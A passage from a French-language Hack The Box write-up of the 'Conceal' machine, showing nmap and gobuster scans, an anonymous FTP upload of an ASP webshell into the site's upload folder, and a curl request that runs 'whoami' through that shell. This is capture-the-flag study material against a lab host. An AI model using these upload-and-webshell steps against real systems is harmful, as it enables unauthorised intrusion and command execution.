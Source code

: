 	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp open  microsoft-ds?
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

	Host script results:
	| smb2-security-mode:
	|   2.02:
	|_    Message signing enabled but not required
	| smb2-time:
	|   date: 2019-05-18 11:50:58
	|_  start_date: 2019-05-18 06:32:33

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                         
	Nmap done: 1 IP address (1 host up) scanned in 23.56 seconds

Nous avons des informations très intéressantes, on peut voir qu'on peut se connecter en tant que Anonymous dans le FTP et on peut également upload des fichiers.
	
HTTP
----
Donc si nous allons dans le serveur HTTP, il y'a pas grand chose donc pour ça je vais lancer une attaque gobuster pour voir si il y'a des dossiers intéréssant ou des fichiers.

	root@Seyptoo:~/htb/box/Conceal# gobuster -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.116
	/upload (Status: 301)

Donc le site web accepte seulement de l'asp ou bien du aspx, mais il accepte en aucun cas du PHP. Donc pour ça je vais upload un shell ASP WebShell pour IIS 8 dans le serveur pour envoyer des commandes. Un bon lien pour télécharger le shell. https://packetstormsecurity.com/files/137024/ASP-Webshell-For-IIS-8.html <br />

	root@Seyptoo:~/htb/box/Conceal# ftp 10.10.10.116
	Connected to 10.10.10.116.
	220 Microsoft FTP Service
	Name (10.10.10.116:seyptoo): anonymous
	331 Anonymous access allowed, send identity (e-mail name) as password.
	Password:
	230 User logged in.
	Remote system type is Windows_NT.
	ftp> mput index.asp
	mput index.asp? y
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	226 Transfer complete.
	1423 bytes sent in 0.00 secs (17.8563 MB/s)
	ftp> 

Donc après avoir upload le shell nous pouvons exécuter des commandes depuis curl.

	root@Seyptoo:~/htb/box/Conceal# curl http://10.10.10.116/upload/index.asp -d "cmd=whoami"
	[...SNIP...]
	conceal\destitute
	[...SNIP..]
	